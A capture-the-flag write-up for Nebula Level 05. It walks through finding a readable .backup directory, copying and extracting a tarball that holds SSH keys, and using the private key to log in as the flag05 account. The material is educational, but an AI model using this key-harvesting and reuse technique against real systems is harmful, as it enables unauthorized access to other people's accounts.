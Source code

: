 # Level 05

Check the **flag05** home directory. You are looking for weak directory permissions

To do this level, log in as the **level05** account with the password **level05**. Files for this level can be found in /home/flag05.

## Source Code

There is no source code available for this level.

## Writeup

If we do an **ls -lah** command we can discover that there is a directory named **.backup** and we have the permission to access into it:

```bash
level05@nebula:/home/flag05$ ls -lah
total 5.0K
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

Go inside the directory and this is his content:

```bash
level05@nebula:/home/flag05/.backup$ ls -lah
total 2.0K
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .
drwxr-x--- 4 flag05 level05   93 2012-08-18 06:56 ..
-rw-rw-r-- 1 flag05 flag05  1.8K 2011-11-20 20:13 backup-19072011.tgz
```

We can download the .tgz file with **scp** command in another terminal:

```bash
scp level05@nebula:/home/flag05/.backup/backup-19072011.tgz .
```

Insert the **level05** password and we now have the .tgz file in out local machine.

Now just unzip the file:

```bash
tar -xvf backup-19072011.tgz
```

We now have a **.ssh** directory that is the backup of the **.ssh** directory of level05 account. It contains this files:

```bash
authorized_keys  id_rsa  id_rsa.pub
```

Make sure that the **id_rsa.pub** key is on append on the **authorized_keys** file:

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLAINcUvucamDG5PzLxljLOJ/nrkzot7EQJ9pEWXoQJC0/ZWm+ezhFHQd5UWlkwPZ2FBDvqxdcrgmmHT/FVGBjK0XWGwIkuJ50nf5pbJExi2SC9kNMMMP2VgY/OxvcUuoGhzEISlgkuu4hJjVh3NeliAgERVzxKCrxSvW48wcAxg4v5vceBra6lY7u8FT2D3VIsHogzKN77Z2g7k2qY82A0vOqw82e/h6IXLjpYwBur0rm0/u3GFB1HFhnAxuGcn4IsnQSBdQCB2S+eOUZ4PmiQ/rUSHuVvMeLCzrxKR+UG9zDwoCwwXpNJehAQJGCiL3JzBNnLjFaylSqKP6xj7cR user@wwwbugs
```

Yes it contains the public key. We can use the private key to login as **flag05** account:

**NB:** use the argument **-o PubkeyAcceptedKeyTypes=+ssh-rsa** because the machine use a deprecated key types

```bash
ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -i id_rsa flag05@nebula
```

We are now inside with **flag05** account:

```bash
flag05@nebula:~$ id
uid=994(flag05) gid=994(flag05) groups=994(flag05)
```

We can now run **getflag** command:

```bash
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
```